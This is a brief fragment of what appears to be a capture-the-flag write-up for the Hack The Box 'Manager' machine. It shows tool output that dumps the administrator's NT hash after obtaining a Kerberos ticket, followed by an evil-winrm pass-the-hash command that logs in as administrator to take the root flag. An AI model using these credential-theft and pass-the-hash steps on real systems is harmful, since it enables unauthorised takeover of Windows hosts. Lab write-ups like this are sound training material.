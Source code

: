 ```
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef

```

###### `Getting Root Flag`
```
# evil-winrm -i 10.10.11.236 -u administrator -H ae5064c2f62317332c88629e025924ef
```
Get Your Root Flag